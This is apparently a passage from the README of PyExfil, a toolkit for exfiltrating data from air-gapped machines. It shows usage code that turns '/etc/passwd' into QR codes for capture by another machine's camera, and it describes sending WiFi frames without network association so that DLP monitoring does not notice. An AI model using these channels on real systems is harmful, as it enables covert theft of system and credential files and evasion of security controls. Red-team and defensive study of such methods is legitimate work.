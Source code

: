 ```python

# Ensure your system's audio environment is set up correctly to handle ultrasonic frequencies.

```

> Important: Before running the example, make sure all dependencies are installed using pip install -r requirements.txt.

**Environmental Considerations**
This method performs best in environments with minimal ultrasonic noise and interference. Physical obstructions, ambient noise levels, and the quality of audio hardware can affect transmission clarity and range.


#### QR Codes
This module is for machines that are, again, air-gapped from other networks and have severe hardening. It's meant to convert a file to a set of QR codes to be scanned by a camera on another machine and still be able to make sense of them.

It was written under MacOS so for any bugs please report to us so that we can fix them.

Installing requirements for this module: `pip install --user -r pyexfil/physical/qr/requirements.txt`.

For MacOS you might need `opencv` so:
```bash
brew tap homebrew/science
brew install opencv
```

Creating the QR Codes:
```python
from pyexfil.physical.qr.generator import CreateQRs, PlayQRs

CreateQRs('/etc/passwd', folder="/tmp/qr_gen0")
PlayQRs("/tmp/qr_gen0") # if you want the QRs to be displayed on the screen one by one.
```

Decoding the QR Codes
```python
from pyexfil.physical.qr.decoder import startFlow, DIR_MODE, CAM_MODE

if __name__ == "__main__":
    startFlow(mode=DIR_MODE) # will use data in 'output' directory.
    startFlow(mode=CAM_MODE) # will use data from camera
```

#### WiFi Frame Payload
This technique is especially efficient when you have some physical proximity to the machine that will exfiltrate the data and for large data sets. The idea behind this is to create Dot11 frames without any network association and sending them out. Any DLP device should not detect this as there is no 'real' network connectivity. There is no handshake, association or any other indication that the machine is communicating over WiFi other than the NIC sending frames.

This method can exfiltrate large data sets due to these conditions but required physical proximity to intercept the packets. Please bear in mind that we have built no quality compensation mechanism. Therefore, a single dropped packet and the data is lost. As always, we endorse anyone to add QA features to this technique and make it more operationally sound.

